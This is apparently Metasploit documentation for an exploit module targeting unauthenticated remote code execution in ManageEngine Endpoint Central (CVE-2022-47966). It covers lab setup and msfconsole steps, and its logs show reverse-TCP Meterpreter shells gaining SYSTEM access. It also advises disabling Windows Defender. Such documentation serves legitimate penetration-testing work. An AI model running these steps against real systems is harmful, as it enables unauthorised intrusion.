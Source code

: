 ## Vulnerable Application
This exploits an unauthenticated remote code execution vulnerability that affects Zoho ManageEngine Endpoint Central and MSP
versions 10.1.2228.10 and below. See [ManageEngine security advisory](https://www.manageengine.com/security/advisory/CVE/cve-2022-47966.html).
Due to a dependency to an outdated library (Apache Santuario version 1.4.1), it is possible to execute arbitrary code
by providing a crafted samlResponse XML to the Endpoint Central SAML endpoint.

Note that the target is only vulnerable if SAML-based SSO is configured and active.

## Installation

### SAML 2.0 Identity Provider
If you don't have an already SAML 2.0 Identity Provider (IdP), you can use this free one for testing: https://mocksaml.com/
Download the IdP xml information by pressing the button `Download Metadata`.

### Download the installers
Go to https://archives.manageengine.com/, fill the form with any data and select ManageEngine Endpoint Central product
with any version (e.g. 10.1.2228.10). You can then have access to all the versions and platform installers.
After downloading the Windows Installer, launch the installer and select all the default options
or make adjustments on the port you want to use by clicking Next.
(you can skip the Registration for Technical Support part, it is optional).

When the installation is done, select Start Endpoint Central Server and click Finish.
This will start a browser and get you to the login page.

### Enable SAML 2.0 SSO
- Go to http://localhost:8020 or other port that you configured during the installation.
- Log in as admin (default admin/admin)
- Go to http://localhost:8020/webclient#/uems/admin/saml-configuration
- Click on SAML Authentication at the ​​Global Settings menu at the left pane.

In Identity Provider Details section:
- Select `Other` option in the  `IdP provider` field
- Provide a name in the `IdP name` field
- Select `Username` option in the `ID Name` field
- Select the `Metadata` radio button in the `Configuration by uploading` field
- And last but not least upload the downloaded xml configuration file from Mock SAML in the `Upload metadata` field
- Click save and you are done

## Verification Steps
- [ ] Start `msfconsole`
- [ ] use `exploit/windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966`
- [ ] set `LHOST` with target IP
- [ ] set `LPORT` with target port
- [ ] set `TARGET` with `0` (Windows EXE dropper) or `1` (Windows Command)
- [ ] `exploit`

You should get a `shell` or `meterpreter` session depending on the target and payload settings.

**Note:** `Windows Defender` might get in the way, depending on the version your are running so disable it on your Windows Machine.
The same applies for `Windows Defender Firewall` if you can not access the  application. Your port might be blocked.

In the test cases below, ManageEngine Endpoint Central version `10.1.2228.5` was tested on Microsoft Server 2019 Standard
with Windows Defender disabled otherwise all standard payloads will fail.

## Options

### TARGETURI
The Endpoint Central SAML endpoint URL. Set to `/SamlResponseServlet` by default.

### DELAY
This sets the number of seconds to wait between each request. It is
particularly useful when using a big payload with the `cmdstager` (Target 0),
which requires sending multiple requests to the target. Endpoint Central has an
anti-DoS mechanism that blocks the source IP address if requests are sent too
fast. This option is set to 5 seconds by default, which seems to be a safe
value.

## Scenarios

### Endpoint Central version 10.1.2228.5 - Target 1 (Windows Command)
```
msf6 exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > set rhosts 192.168.100.58
rhosts => 192.168.100.58
msf6 exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. SAML-based SSO is enabled.
[*] Executing Windows Command for cmd/windows/powershell/meterpreter/reverse_tcp
[*] Sending stage (175686 bytes) to 192.168.100.58
[*] Meterpreter session 1 opened (192.168.100.7:4444 -> 192.168.100.58:55450) at 2023-01-29 07:19:10 +0000

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 4100 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\DesktopCentral_Server\bin>
```
### Endpoint Central version 10.1.2228.5 - Target 0 (Windows EXE dropper)
```
msf6 exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. SAML-based SSO is enabled.
[*] Executing Windows EXE Dropper for windows/x64/meterpreter/reverse_tcp
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 192.168.100.58
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[*] Meterpreter session 3 opened (192.168.100.7:4444 -> 192.168.100.58:55489) at 2023-01-29 07:22:47 +0000

meterpreter > shell
Process 7364 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\DesktopCentral_Server\bin>
```

## Limitations
No limitations identified.
